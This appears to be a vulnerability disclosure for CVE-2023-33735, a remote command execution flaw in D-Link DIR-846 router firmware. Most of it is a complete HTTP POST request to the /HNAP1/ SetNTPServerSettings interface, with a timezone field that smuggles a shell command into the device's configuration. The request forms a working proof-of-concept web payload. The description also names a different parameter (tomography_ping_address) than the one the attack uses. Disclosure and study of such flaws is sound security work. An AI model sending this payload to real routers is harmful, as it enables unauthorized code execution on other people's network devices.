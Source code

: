 ## D-Link DIR-846 RCE

### CVE

CVE-2023-33735

### Description

The remote D-Link router is affected by a remote code execution vulnerability. D-Link DIR-846 v1.00A52 firmware was discovered to contain a remote command execution (RCE) vulnerability via the tomography_ping_address parameter in /HNAP1/ interface.

### Attack type

Remote

### Impact

Code Execution

### Affected component

D-Link DIR-846 v1.00A52 firmware

### Attack vector

Exploit the `SetNTPServerSettings`  interface to inject malicious command in the `/etc/config/system` file. 

```HTTP
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 78
Accept: application/json
DNT: 1
HNAP_AUTH: 6147C23206FF8CC1AB5CC13018BB3EA7 1680770210397
SOAPACTION: "http://purenetworks.com/HNAP1/SetNTPServerSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/SNTP.html?t=1680770105995
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,or;q=0.7
Cookie: PHPSESSID=b0dfed1882f1fe6eb8955ffd4b9a00c4; uid=XNecbwaw; PrivateKey=9C476884208EA69A1B7FBF06C721FFB7
Connection: close

{"SetNTPServerSettings":{"system_time_timezone":"'|`id > /tmp/result`|echo'"}}
```

![image-20230406172736707](https://raw.githubusercontent.com/Tyaoo/PicBed/master/img/202304061847427.png)
